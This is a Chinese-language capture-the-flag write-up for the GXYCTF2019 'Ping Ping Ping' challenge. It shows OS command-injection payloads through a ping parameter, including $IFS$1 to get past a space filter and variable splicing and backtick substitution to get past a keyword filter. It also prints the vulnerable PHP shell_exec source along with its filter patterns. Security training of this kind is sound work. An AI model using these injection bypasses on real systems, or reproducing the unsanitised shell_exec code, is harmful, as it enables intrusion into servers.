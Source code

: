 # [GXYCTF2019]Ping Ping Ping 1

- 进入网页，提示/?ip=，在url栏输入 `/?ip=1` ，出现ping的结果

> <img src="../../IMG2/Screenshot 2024-05-17 212551.png">

- 尝试命令连接符，只有分号可用，输入 `/?ip=127.0.0.1;ls` ，出现了flag.php

> <img src="../../IMG2/Screenshot 2024-05-17 212900.png">

- 直接输入 `/?ip=127.0.0.1;cat flag.php` 失败，经过测试，发现是过滤了空格，使用 `$IFS$1` 成功绕过空格

> <img src="../../IMG2/Screenshot 2024-05-17 213039.png">

- 尝试发现屏蔽了flag关键字，且无法使用 `*` 通配符，先cat index.php，发现了源代码，开始代码审计

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

- 经过代码审计，可以看出所有的字符都进行了过滤，但是还是可以通过拼接的方式或者内联的方式获取flag

- 方法一：拼接，php会将g作为a的值拼接到fla$a.php中

`/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

> <img src="../../IMG2/Screenshot 2024-05-17 214306.png">

- 方法二：内联，ls的输出会作为cat的输入，也可以使用$(ls)

`/?ip=127.0.0.1;cat$IFS$1(反引号)ls(反引号)`

*注：markdown中如果出现两个反引号会默认识别为代码行标记，故此处用括号代替*

> <img src="../../IMG2/Screenshot 2024-05-17 214402.png">